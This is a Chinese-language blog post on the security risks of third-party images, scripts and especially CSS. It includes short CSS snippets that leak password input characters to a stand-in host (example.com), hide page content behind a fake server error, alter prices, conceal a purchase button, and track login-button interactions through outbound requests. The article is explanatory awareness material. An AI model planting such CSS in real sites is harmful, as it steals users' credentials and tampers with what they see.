 > 本文来自@yeaseonzhang；链接：http://yeaseonzhang.github.io/2018/04/10/%E5%88%AB%E4%BA%BA%E5%86%99%E7%9A%84css%EF%BC%8C%E4%BD%A0%E6%95%A2%E7%94%A8%E5%90%97%EF%BC%9F/

CSS能做的东西还是很多的，随着CSS Houdini（胡迪尼）的标准化，会变得更强大...

正文从这里开始 ~

为了实现高效开发，大多数时候会选择别人实现好的库/组件引用到自己的项目中，但是这样真的安全吗？

大多数web开发者认为只要不使用别人的js，安全就会有保证。Too young, too naive，殊不知“黑客”已经开始在css上做手脚了。

在浏览器设置中用户可以禁用js，但是css却是没有办法禁用的。

首先聊一聊使用第三方资源，能够造成的危害。1

## 图片

```html
<img src="https://img.com/iphone6s.jpg">
```
引用第三方图片资源，可能会出现2个问题：

- 图片资源失效
- 图片资源被替换

![201855112740](http://cdn.chenrf.com/201855112740.png)

上图展示了使用第三方图片可能带来的后果，图片资源只会影响自身的状态而不会影响其他部分。

## 脚本Javascript

```js
<script src="http://example.com/script.js"></script>
```

脚本的作用范围就不是图片能够比拟的了，脚本能够随意控制整个页面。

- 读取、篡改页面内容
- 监控用户行为
- 使用用户浏览器的算力进行挖矿
- 使用用户cookie做请求，并转发响应
- 读取、篡改浏览器storage
- More

注：storage/indexDB 如果被更改，即使删除了脚本，这些更改仍然不可逆。

只有在完全信任的情况下，才会选择加载第三方脚本。

## CSS

css在作用范围的方面更加接近于js，因为它同样是在整个页面生效。

css能在以下几个方面对页面进行操作：

- 增、删和改页面内容
- 根据页面内容发起请求
- 响应用户交互

与js相比，css不能做到的是修改storage，也不能用来挖矿。

### 键盘记录器

键盘记录器，指的是页面会记录用户的输入。目前这种行为只存在于使用React/类React框架的页面。

```css
input[type="password"][value$="p"] {
    background: url(//example.com/password?p);
}
```

如果密码输入框，输入以p结尾的密码，就会发起一个//exaple.com/password?p请求。浏览器默认不会记住input输入框的输入，这也就是为什么说这种行为只存在于使用React/类React框架的页面中，下面截取两个例子。

![201855113152](http://cdn.chenrf.com/201855113152.png)

JD主站没有使用React/类React框架，输入框的内容不会再input标签中显示value属性

![201855113214](http://cdn.chenrf.com/201855113214.png)

instagram使用的是React框架，会把输入框的内容同步显示在input的value属性中。

### 隐藏内容

通过一些技巧，将真正的页面内容不展示给用户。

```css
body {
    display: none;
}
html::after {
    content: 'HTTP 500 Server Error';
}
```

上例将真正的主体内容隐藏，展示给用户HTTP 500错误。

### 增加内容

```css
.price-value::after {
    content: '8';
}
```

![201855113428](http://cdn.chenrf.com/201855113428.png)

商品涨价了诶，估计连卖家都不知道。遇到这种情况用户一般都不会产生购买欲望了。

### 移动内容

```css
.move-purchase-button {
    opacity: 0;
    position: absolute;
    top: 100px;
    left: 100px;
}
```

![201855113518](http://cdn.chenrf.com/201855113518.png)

结算按钮被第三方css就这样搞没了，用户根本没办法完成购买行为，这种情况对电商网站很伤，导致“只能看不能买”。

### 监控用户交互

```css
.login-button:hover {
    background: url('//example.com/login-button-hover');
}
.login-button:active {
    background: url('//example.com/login-button-active');
}
```

通过上面的代码，可以用来检测用户在登录按钮的交互状态，是hover还是active(点击)，不同的状态会发送不同的请求。

如果页面中适量增加类似css代码，可以有用来做用户画像分析。

